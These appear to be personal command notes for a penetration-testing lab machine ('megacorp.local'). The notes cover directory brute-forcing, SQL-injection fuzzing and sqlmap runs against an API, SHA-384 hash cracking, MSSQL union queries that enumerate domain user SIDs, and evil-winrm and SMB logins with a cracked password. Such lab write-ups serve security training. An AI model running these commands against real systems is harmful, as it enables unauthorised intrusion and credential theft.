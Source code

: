```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 50 -u http://$tip -o gobuster.log

wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt --hw 443 -u http://megacorp.local/api/getColleagues -d '{"name":"FUZZ"}'
 wfuzz -c -w /usr/share/seclists/Fuzzing/special-chars.txt  -u http://megacorp.local/api/getColleagues -d '{"name":"FUZZ"}' -H 'Content-Type: application/json;charset=utf-8'  -s 3 -p 127.0.0.1:8080:HTTP

locate tamper | grep sqlmap
sqlmap -r getColleages.req --level=3 --risk=1 --current-user
sqlmap -r getColleages.req --level=5 --risk=1 --tamper=charunicodeescape --delay 3 --batch --dbms=mssql --current-user

# google search: mssql injection cheatsheet

# google search: group_concat mssql; show the 2 table names in one cell.

cat domainuser.list | sort -u  > temp

# check password char count.
echo -n 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739  | wc -c

# identify hash mode
hashid 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 
hashcat --example-hashes | grep -i '\-384'

hashcat -m 17900 multimaster.hash rockyou.txt

# enum domain user via mssql
## query domain user, output binary
union SUSER_SID('MEGACORP\Administrator')

## convert to hex string, output domain  
## notice the last 8 byte, user rid:  f4 01 00 00
## reverse and print, 00 00 01 f4 
## python>>> 0xf401  --> 500
union master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator'))

## brute force the domain user

---- Foothold
-- shell tushikikatomo
crackmapexec smb $tip -u tushikikatomo -p finance1  --shares

evil-winrm -u "MEGACORP\tushikikatomo" -p finance1 -i $tip

# use domain user to auth
smbmap -H $tip -d megacorp.local -u tushikikatomo -p finance1 -R

# evil-winrm
evil-winrm -u "MEGACORP\tushikikatomo" -p finance1 -i $tip
evil-winrm -u MEGACORP\\tushikikatomo -p finance1 -i $tip

## smbshare download
new-PsDrive 
net user z: \\tip\share

# bloodhound enum
## query find all domain admins

```